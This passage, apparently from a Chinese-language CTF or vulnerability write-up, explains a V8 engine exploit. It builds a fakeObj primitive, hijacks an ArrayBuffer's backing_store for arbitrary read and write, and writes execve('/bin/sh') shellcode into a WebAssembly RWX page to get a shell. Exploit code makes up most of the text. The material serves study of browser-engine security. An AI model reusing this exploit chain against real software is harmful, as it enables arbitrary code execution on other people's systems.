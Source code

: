 我们对`p1`中的`x1`和`x2`进行写入时，实际上会写入`obj`中的对应位置。这里有一个非常常用的结构`ArrayBuffer`，其中的`backing_store`字段存放了一个内存地址，该地址是实际读写时的地址。如果能够修改该地址为任意地址，则可以利用这一`ArrayBuffer`达到任意地址读写的效果。  
通过调试很容易发现，`backing_store`和`x2`的偏移相同，因此对`x2`进行修改能够达到修改`backing_store`的作用，进而可以控制`ArrayBuffer`任意地址读写。

```plain
function fakeObj(obj, addr) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    let orig = obj.b${p1}.x2;
    obj.b${p1}.x2 = ${addr};
    return orig;
  }
`);

  let values = [];
  let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;

  for (let i = 0; i < 10000; i++) {
    o.x2 = 1.2;
    let res = vuln(getObj(values));
    if (res != 1.2) {
      return res;
    }
  }
  throw "[!] fakeObj Primitive Failed"
}
```

### Get Shell

Get shell的方法比较常规，通过`wasm`分配一块可读写可执行的内存，然后通过间接寻址找到这一内存，在这一版本中`wasmInstance`偏移`0xf0`处即为该地址。通过任意地址读写讲shellcode写入，通过调用wasm中的函数执行写入的shellcode。

```plain
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
let mem = new ArrayBuffer(1024);
let dv = new DataView(mem);
let addr = addrof(wasmInstance);
fakeObj(mem, addr);
let code_addr = Int64.fromDouble(dv.getFloat64(0xf0 - 1, true));
print("rwx addr", code_addr);
fakeObj(mem, code_addr.asDouble());
let shellcode = [
  0x2fbb485299583b6an,
  0x5368732f6e69622fn,
  0x050f5e5457525f54n
];
let data_view = new DataView(mem);
for (let i = 0; i < 3; i++)
  data_view.setBigUint64(8 * i, shellcode[i], true);
f();
```
